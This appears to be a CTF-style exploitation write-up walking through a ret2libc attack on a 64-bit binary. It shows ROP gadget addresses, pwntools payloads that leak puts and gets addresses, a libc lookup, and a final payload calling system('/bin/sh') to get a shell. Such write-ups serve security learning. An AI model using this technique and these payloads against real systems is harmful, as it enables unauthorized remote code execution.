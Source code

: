 To generate first exploit we need to find two gadgets, main address.
To find gadgets addressys I used ROPgadget which returned:
```
0x0000000000401016 : ret
0x000000000040120b : pop rdi ; ret
```

and from objdump i get "main" address:
```0000000000401142 <main>:```

to get puts plt and got adress I used pwntools build in function
```
binary.got.puts
binary.plt.puts
```

full code of payload is:
```py
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
payload += p64(binary.got.puts)       # address of linked puts function (it will be passed as argument to puts)
payload += p64(binary.plt.puts)       # address of linked puts function 
payload += p64(0x0000000000401142)    # main
```

After sending this payload I got puts address which was:
`puts: 0x7f2807370910`

Nextly, I edited this payload to leak gets function address.  
After modification it looks like:
```py
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
payload += p64(binary.got.gets)       # address of linked gets function (it will be passed as argument to puts)
payload += p64(binary.plt.puts)       # address of linked puts function
payload += p64(0x0000000000401142)    # main
```
Gets address was:
```gets: 0x7f3313d3f040```

## Libc version

To determinate which Libc version is running in the server we need to check which version of libc use offset like this.  
To do this I used https://libc.blukat.me// and past there last 3 characters from puts and gets address. Website returned to me libc version running at the server  
and usefull offsets (especially: system function and "/bin/sh" string)  

<img src="Pasted image 20210727204947.png" alt="website">

## Second payload
When we know libc address we can run not linked function directly from library in our case it will be system("/bin/sh").  
"system()" command will run shell and give us controll at the system what will enable us to run every command at victim server.

```py
payload = b'\x79' * padding           # padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
payload += p64(libc + 0x181519)       # "/bin/sh" 
payload += p64(libc + 0x0449c0)       # system()
```

